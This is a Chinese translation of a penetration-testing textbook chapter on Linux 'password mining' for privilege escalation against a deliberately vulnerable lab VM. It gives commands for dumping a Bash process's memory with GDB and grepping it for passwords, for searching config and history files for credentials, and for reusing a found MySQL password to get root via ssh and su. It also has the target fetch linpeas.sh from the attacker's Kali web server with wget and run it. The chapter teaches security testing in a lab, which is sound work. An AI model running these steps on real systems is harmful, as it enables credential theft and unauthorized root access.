


# 第十一章：Linux 密码挖掘

现在，您已经了解了如何利用 Linux 上的内核漏洞提升权限，我们可以开始探索如何在 Linux 系统上搜索和识别本地存储的凭证。这个过程将涉及搜索可以直接提升我们权限的特定密码和应用程序凭证，而不需要使用任何漏洞。

本章将重点介绍可以用来查找和识别密码的各种工具和技术，这些密码将有助于我们获取提升后的会话。

我们将首先了解如何提取存储在内存中的密码和凭证，然后再看看如何在应用程序和操作系统配置文件中识别凭证。最后，我们将通过探索在历史文件中搜索和识别密码的过程来结束本章。

本章将涉及以下主要内容：

+   什么是密码挖掘？

+   从内存中提取密码

+   在配置文件中搜索密码

+   在历史文件中搜索密码

# 技术要求

为了跟随本章的演示，您需要确保熟悉 Linux 终端命令。

您可以在这里查看本章代码的实际演示：[`bit.ly/2Y3qA3w`](https://bit.ly/2Y3qA3w)

# 什么是密码挖掘？

您应该已经熟悉密码挖掘过程及其重要性，因为我们在*第七章*《Windows 密码挖掘》中已经介绍过这一点；然而，在处理 Linux 系统时，这个过程有一些细微的差别。

密码挖掘是指在目标系统的持久或易失性内存中搜索和列举加密或明文密码的过程。这个过程的主要目标是识别潜在有用的用户账户和应用程序密码，这些密码可以扩大我们对目标系统的控制权，并可能为我们提供提升的权限。

由于 Linux 发行版和部署使用案例的性质，这个过程在不同的目标之间会有所不同。因此，了解 Linux 系统上密码（包括加密和明文密码）存储的位置和方式非常重要。

还需要理解，这一过程依赖于一系列漏洞，这些漏洞源自组织或个人的密码安全实践。密码安全实践不当是攻击者的主要目标，因为这些不当做法提供了一个直接的访问通道，无需进一步的系统利用或破坏。

由于各种平台和应用程序需要大量凭据，员工和个人往往会将凭据以明文形式保存在他们的系统中，通常是保存在 `.doc`、`.txt` 或 `.xlsx` 文件中以便于访问，并且很可能使用较弱的密码，这些密码由与他们相关的事件、名字或日期组成。这对组织的安全构成了重大威胁，因此，大多数组织会实施密码安全政策，以应对这些问题。密码安全政策用于为用户账户密码建立一个基本的安全级别，并强制要求以安全方式存储和使用由单词（包括大小写字母）、符号和数字组成的强密码，且推荐密码的最小长度为八位数字。然而，这也导致了密码重复使用的现象，员工和个人往往会对多个账户使用相同的密码，主要是因为他们需要使用的密码过于复杂。这使得攻击者可以通过破解一个账户的密码，获得多个账户的访问权限。

另一个额外的安全漏洞或风险涉及 Linux 用户账户密码及其存储方式。Linux 会加密并本地存储用户账户密码。在攻击者获得初步访问权限后，用户账户的哈希值可以从内存中转储，并且可以根据密码的长度和强度进行破解。我们将在本章稍后讨论这种技术的优缺点。

从组织的角度来看，Linux 还用于托管一些具有自身安全漏洞的第三方业务关键应用程序。大多数这些应用程序实现了某种形式的访问控制，因此需要通过用户名和密码组合进行用户身份验证。这些应用程序也容易将凭据以明文或加密格式本地存储。在成功利用这些漏洞后，攻击者可以定位这些凭据，解密它们（如果加密较弱），并用它们来访问应用程序，从而扩大对系统或网络的控制范围。

现在，您已经了解了什么是密码挖掘，我们可以看看如何设置我们的目标 **虚拟机**（**VM**），我们将在本书剩余的章节中使用它。

## 设置我们的环境

在本章中，我们将使用一个定制的 Debian 6 虚拟机（**VM**），该虚拟机已配置为易受攻击，并将为我们提供一个强大的环境，以便学习和演示密码挖掘过程。

要开始设置虚拟机，请按照接下来的步骤进行操作：

1.  该过程的第一步是下载 VM 所需的**开放虚拟化应用程序**（**OVA**）文件，以便使用 VirtualBox 设置目标系统。可以通过以下链接下载 OVA 文件：[`www.dropbox.com/s/e8anrvbxvqidw3w/Debian%206%2064-bit%20%28Workshop%29.ova?dl=0`](https://www.dropbox.com/s/e8anrvbxvqidw3w/Debian%206%2064-bit%20%28Workshop%29.ova?dl=0)。

1.  为了将 VM 导入 VirtualBox，你需要双击**Debian 6 64-bit（Workshop）**文件，如下面的截图所示：

    图 11.1 – VM 文件

1.  双击 OVA 文件后，你会看到如下面截图所示的 VirtualBox 导入向导：

    图 11.2 – VirtualBox 导入向导

    VirtualBox 导入向导会提示你指定 VM 的基础文件夹，如前面的截图所示。之后，你可以点击**导入**按钮开始导入过程。

1.  将 VM 导入 VirtualBox 后，你需要将其添加到我们在本书*第二章*《设置我们的实验室》中创建的**虚拟黑客实验室**网络中，如下图所示：

图 11.3 – VirtualBox 网络设置

一旦你配置好 VM 使用自定义网络，可以保存更改并启动 VM，开始操作。

你需要在系统上获得初步的控制权限，才能跟随本章中的技术和演示。你可以通过**安全外壳协议**（**SSH**）使用以下凭证远程认证到目标系统，从而获得初步控制权限：用户名（**user**）和密码（**password321**）。

这些凭证将为你提供一个在目标系统上的无特权会话，我们可以利用该会话作为提升权限的起点。

# 从内存中提取密码

我们可以通过探索一种不常见的技术来开始密码挖掘过程，该技术可以从内存中提取应用程序密码。此技术的可行性和成功与否将取决于目标上运行的应用程序类型及其部署用例。

使用用户名和密码认证的应用程序和服务可能会将凭证存储在用户空间内存中，无论是以明文形式还是加密状态。通过转储和分析特定服务的内存，可能会揭示与应用程序相关的凭证。我们可以使用这些凭证来获得访问权限并控制该服务；另外，我们还可以使用发现的凭证进行其他用户帐户的认证，以提升我们的权限。这是因为许多用户和系统管理员倾向于为各种应用程序和用户帐户重复使用密码。

我们可以使用**GNU 调试器**（**GDB**）转储运行中的服务或应用程序的内存，以揭示明文或加密密码。

注意

GDB 是一个可移植的调试器，能够在各种类似 Unix 的系统上运行，并可用于调试各种编程语言。

这一技术需要一个程序化的方法，并且根据目标系统上运行的应用类型，不同系统之间会有所不同。

我们可以按照接下来概述的程序开始这个过程：

1.  过程的第一步是识别目标系统上运行的服务，这些服务利用身份验证或可能曾用于与其他服务进行身份验证。可以通过在目标系统上运行以下命令来完成：

    `ps -ef`

    该命令将列出系统上所有正在运行的服务及其对应的**进程标识符**（**PID**）。

    如下图所示，我们可以识别出作为**用户**运行的各种服务：

    

    图 11.4 – Bash 进程

    我们也可以手动搜索可能会使用身份验证的特定服务。可以通过运行以下命令来完成：

    `ps -ef | grep <SERVICE_NAME>`

    该命令利用`grep`工具将结果限制为与关键字匹配的进程。

    如*图 11.4*所示，我们能够识别出一个 Bash 会话及其对应的 PID。

1.  我们可以利用 GDB 转储`Bash`服务的内存，以揭示可能在 Bash 会话中由其他用户输入的凭据。这可以通过在目标系统上运行以下命令来完成：

    `gdb -p <PID>`

    该命令用于指定你想要用 GDB 分析的特定 PID。在这种情况下，确保指定 Bash 服务的 PID，如*图 11.4*所示。

1.  下一步是列出该进程的所有映射内存区域。可以通过在 GDB 中运行以下命令来完成：

    `info proc mappings`

    如果成功，GDB 应该输出服务的映射地址空间，如下图所示：

    

    图 11.5 – GDB 映射的地址空间

    注意堆内存的起始和结束地址，如前面的截图所示，因为我们需要这些地址来转储服务的内存。

1.  现在，我们可以通过指定堆分配的起始和结束地址来转储服务的内存。这可以通过在 GDB 中运行以下命令来完成：

    `dump memory <OUTPUT_FILE> <START_ADDRESS> <STOP_ADDRESS>`

    该命令将把 Bash 服务的堆内存内容输出到一个可以进行分析的输出文件中。

    注意

    堆内存，也称为动态内存，是应用程序用来存储全局变量的。

1.  在将 Bash 服务的内存转储到文件后，我们可以使用`strings`工具来识别潜在有用的信息和凭据。可以通过在目标系统上运行以下命令来实现：

    `strings /<OUTPUT_FILE> | grep passw`

    此命令将识别输出文件中的所有字符串，并搜索任何出现的`passw`关键字。

    如以下截图所示，我们能够识别到一个明确列出的 MySQL 身份验证命令，包括用户名和密码：

    

    图 11.6 – 从内存中转储的 MySQL 凭据

    我们现在可以使用这些凭据获得 MySQL 服务器的 root 访问权限，因为在身份验证命令中指定的凭据使用了 root 账户。然而，目标并没有运行 MySQL 服务器。

1.  另外，如果 root 用户为其他服务重复使用密码，我们可以利用 MySQL 凭据尝试通过 SSH 获得对目标系统的 root 账户的访问权限。可以通过运行以下命令来实现：

    `ssh root@<TARGET-IP>`

    如以下截图所示，使用 MySQL 凭据进行身份验证成功，您现在应该能够访问目标系统的 root 权限：

图 11.7 – 成功的 SSH 身份验证

我们现在已经能够成功通过转储和分析特定服务的内存来提升我们的权限。在这种情况下，我们能够访问系统上的 root 账户，主要原因是管理员或 root 用户的安全实践不当。以下的错误或不当的安全实践导致了我们成功提升权限：

+   管理员或 root 用户的密码重复使用。

+   MySQL 身份验证命令包含了用户名和密码。

这些错误是 Linux 服务器上的用户和系统管理员常犯的错误，必须始终进行测试，因为它们可能揭示出非常重要的信息，这些信息可以用来提升在目标系统上的权限。

现在，您已经了解了如何转储进程的内存以及如何查找和识别凭据，我们可以开始探索在配置文件中查找密码的过程。

# 在配置文件中查找密码

应用程序为攻击者提供了一个诱人的目标，因为其中的弱点和漏洞以及它存储凭据的方式可能导致整个系统被攻破或权限提升。

本节将重点介绍查找和列举应用程序凭据。本节演示的技术将取决于您处理的目标类型及其部署用例。在我们的特定案例中，我们的目标虚拟机被设置为服务器，并安装了各种应用程序。

该过程的第一步涉及在本地存储的各种文件中搜索密码；这将帮助我们识别文本或配置文件中的任何用户或应用程序密码。通过使用内置的 Linux 工具，可以在特定扩展名的文件中搜索特定的字符串来实现这一点。

## 搜索密码

我们可以按照接下来概述的程序开始密码搜索过程：

1.  我们可以通过搜索包含密码的文件来开始。这可以通过利用`grep`工具来完成，如下所示：

    `grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null`

    此命令将从文件系统根目录开始递归扫描，并输出包含`password`关键字的文件列表，并根据需要对结果进行着色，如下图所示：

    

    图 11.8 – grep 结果

    注意

    建议交替使用`password`关键字和其简写形式，如`pass`或`passw`。这是因为配置文件会以不同的名称存储凭证，并且可能会使用关键字的简写形式。

    该命令将输出大量数据，这可能使得识别任何有用凭证变得困难。因此，我们需要将搜索范围缩小到包含应用程序和服务的有用配置文件的特定目录。这可以通过运行以下命令来完成：

    `grep --color=auto -rnw '/etc' -ie "PASSWORD" --color=always 2> /dev/null`

    此命令将把结果限制在`/etc`目录中找到的配置文件，如下图所示：

    

    图 11.9 – 定制的 grep 搜索结果

    在这种情况下，我们未能识别出任何有用的凭证，因此我们可以将注意力转向**用户**的主目录。

1.  我们可以定制搜索关键字，确保通过使用`pass`关键字而不是`password`，不会错过任何匹配项。这可以通过运行以下命令来完成：

    `grep --color=auto -rnw '/home/user' -ie "PASS" --color=always 2> /dev/null`

    此命令将输出**用户**帐户主目录中包含`pass`关键字的所有文件列表，如下图所示：

    

    图 11.10 – 定制的 grep 搜索结果

    在这种情况下，我们能够在**用户**帐户主目录中识别到一个包含 OpenVPN 凭证位置的 OpenVPN 配置文件。我们可以通过运行以下命令显示前面截图中高亮显示的文件内容：

    `cat /etc/openvpn/auth.txt`

    此命令的输出如下所示：

    

    图 11.11 – OpenVPN 凭据

    显示文件内容时，我们可以看到**用户**帐户的凭据，但无法看到系统中任何其他帐户的凭据，如前面的截图所示。

    如果我们事先不知道**用户**帐户的凭据，这将是有用的信息，因为我们将无需破解该帐户的密码哈希便能获取**用户**帐户的密码。

1.  你还可以结合使用`find`工具和`grep`工具，根据目标的配置进一步优化搜索。这可以通过运行以下命令来完成：

    `find /etc -type f -exec grep -i -I "PASS" {} /dev/null \;`

    这个命令将输出一个包含`pass`关键字的`/etc`目录下的文件列表。

    在这种情况下，我们无法找到任何包含我们可以使用的凭据的新文件，如以下截图所示：

    

    图 11.12 – 查找搜索结果

    我们还可以通过运行以下命令，搜索包含`pass`关键字的**用户**帐户主目录中的文件：

    `find /home/user -type f -exec grep -i -I "PASS" {} /dev/null \;`

    输出结果如图所示：

    图 11.13 – 自定义查找搜索结果

    在这种情况下，我们能够识别出一个包含**用户**帐户 IRC 凭据的**互联网中继聊天**（**IRC**）客户端配置文件；然而，我们无法找到任何其他可以用于特权提升的用户或应用程序凭据。

1.  我们可以通过使用自动化枚举脚本来自动化这个过程。在这种情况下，我们将使用**Linux 特权提升超级脚本**（**linPEAS**）来自动化目标上的密码挖掘过程。

    注意

    `linPEAS`是一个本地 Linux 枚举脚本，用于搜索和扫描潜在的漏洞，并枚举所有可以用于进行特权提升攻击的重要系统信息。

linPEAS 二进制文件可以从 GitHub 仓库下载，链接如下：

[`github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

确保你下载了`linpeas` Bash 脚本，如以下截图所示：

图 11.14 – linPEAS Bash 脚本

在将 Bash 脚本下载到我们的 Kali 虚拟机后，我们需要将`linpeas.sh`文件传输到目标虚拟机。这不能自动完成，因为我们没有 meterpreter 会话。因此，我们需要使用 Linux 特定的工具来下载该二进制文件。

## 文件传输

为了将 `linpeas.sh` 文件传输到目标系统，我们需要在 Kali 虚拟机上设置一个 Web 服务器，用于托管该文件，以便我们可以在目标系统上下载它。可以按照此处概述的步骤进行操作：

1.  为了在 Kali 虚拟机上设置 Web 服务器，我们可以使用 `SimpleHTTPServer` Python 模块来提供二进制文件。这可以通过在存储 `linpeas.sh` 二进制文件的目录中运行以下命令来完成：

    `sudo python -m SimpleHTTPServer 80`

    注意

    `SimpleHTTPServer` 是一个适用于 Python 2 的模块，也可以在 Python 3 中使用，名称为 `http.server`。

    如下截图所示，`SimpleHTTPServer` 模块将在 Kali 虚拟机的 `Internet Protocol** (`IP**) 地址的 `80` 端口上提供该目录中的文件：

    

    图 11.15 – SimpleHTTPServer linPEAS

1.  为了将 `linpeas.sh` 文件下载到目标系统，我们可以使用 `wget` 工具。然而，在下载二进制文件之前，我们需要导航到一个有读写权限的目录。在此，我们将导航到临时目录，如下截图所示：

    图 11.16 – Linux 临时目录

1.  现在我们可以使用 `wget` 工具从 Kali 虚拟机下载文件到目标系统。这可以通过在目标系统上运行以下命令来完成：

    `wget http://<KALI-VM-IP>/linpeas.sh`

    此命令的输出如下所示：

    

    图 11.17 – 转移 linPEAS 脚本

    如前面的截图所示，如果传输成功，`linpeas.sh` 文件应已下载并保存为我们指定的名称。

1.  现在我们可以使用 `linpeas.sh` 脚本来自动化密码挖掘过程。这可以通过运行 `linpeas.sh` 脚本来完成。然而，在此之前，我们需要确保脚本具有可执行权限。这可以通过在目标系统上运行以下命令来完成：

    `chmod +x linpeas.sh`

1.  我们现在可以通过在目标系统上运行以下命令来运行 `linpeas.sh` 脚本：

    `./linpeas.sh`

    此命令将枚举并输出与特权提升相关的所有系统信息。在此，我们只对包含凭证的文件感兴趣。

在这种情况下，我们能够通过手动技术识别我们之前找到的 IRC 客户端凭证，具体如下截图所示：

图 11.18 – IRC 客户端密码

我们还能够识别 OpenVPN 用户凭证，如下截图所示：

图 11.19 – OpenVPN 凭证

`linpeas.sh`脚本没有显示系统本地存储的其他凭据或密码。因此，我们将不得不将搜索范围缩小到可能包含潜在有用信息的特定文件。

我们对密码和凭据的搜索并没有取得成果，因为我们无法找到任何可以让我们进一步提升权限的凭据。然而，我们只能找到`user`账户的凭据。

过程中的下一步将涉及在目标系统的历史文件中搜索密码。

# 在历史文件中搜索密码

运行 Linux 的一个优势是用户可以获得大量的日志记录。默认情况下，Linux 会自动记录用户在系统上输入的所有 Bash 命令，除非另有规定。这对系统管理员来说是一个优势，因为它提供了一个问责制系统，用户的所有操作和命令都被记录下来，并可以进行历史分析；然而，如果配置不正确，攻击者可以利用这个功能来搜索并识别来自用户输入命令的各种历史文件中的重要信息，如凭据。

公司和组织通过禁用用户命令历史记录来减轻这种固有的配置漏洞。或者，他们也可以在用户完成会话后强制删除这些日志。然而，在许多情况下，Linux 系统上的用户可能会忘记清除他们的历史记录，因此，攻击者可以筛选用户的历史记录，以寻找潜在有用信息。

通过各种技术搜索和识别本地存储的凭据的步骤如下：

1.  这个过程的第一步涉及分析`user`账户的 Bash 历史文件。`bash_history`文件记录了用户在 Bash 会话中输入的所有命令，并且默认位于用户的主目录中。我们可以利用`cat`实用程序与`grep`实用程序结合使用来显示文件的内容，并将输出限制为仅显示与关键字匹配的命令。可以通过运行以下命令来实现：

    `cat /home/user/.bash_history | grep "pass"`

    这个命令将输出用户过去输入的包含`pass`关键字的命令列表，旨在识别可能已经输入的任何凭据，如下截图所示：

    

    图 11.20 – 分析 Bash 历史

    如前面的截图所示，我们能够识别一个包含明文指定用户名和密码的本地 MySQL 服务器的认证命令。

    注意

    `bash_history` 文件用于存储特定用户的命令历史记录。`bash_history` 文件可以在用户的主目录中的 `.bashrc` 配置文件中进行配置。

1.  我们可以利用这些凭据进行 MySQL 服务器身份验证；然而，服务器在此时似乎没有运行 MySQL 服务。然而，如果发生密码重用，我们也可以使用这些凭据对 root 账户进行身份验证。

    这可以通过从当前用户切换到 `root` 用户，并指定我们在前述截图中识别的凭据来完成，如下所示：

    `su root`

    如下图所示，使用 MySQL 凭据进行身份验证成功，我们已经成功地将我们的权限提升到了目标系统的最高级别：

    

    图 11.21 – 成功的权限提升

1.  或者，我们还可以使用 `history` 命令在目标系统上输出用户之前输入的所有命令历史记录。可以通过运行以下命令实现：

    `history`

    如下图所示，我们能够识别出使用明文指定的凭据对 MySQL 服务器的身份验证尝试。我们还能够识别出可能包含有助于提升我们在目标系统上权限的有用信息的潜在文件，如下图所示：

图 11.22 – 分析命令历史记录

在这种情况下，我们可以利用 MySQL 凭据将我们的权限提升到最高级别，作为 root 用户，就像我们之前所做的那样。

通过多种技术搜索并识别本地存储的凭据，我们已经成功地提升了我们的权限。

# 总结

本章开始时，我们了解了如何通过 GDB 从内存中提取应用程序密码。然后，我们深入研究了如何手动和自动地搜索和识别配置文件中的密码。最后，我们通过查看特定用户的 `bash_history` 文件，了解了如何查找密码。

现在我们已经学会了如何通过查找 Linux 系统中本地存储的密码来提升权限，我们可以开始探索其他 Linux 权限提升途径。

在下一章中，我们将探讨通过配置错误的计划任务提升权限的过程。
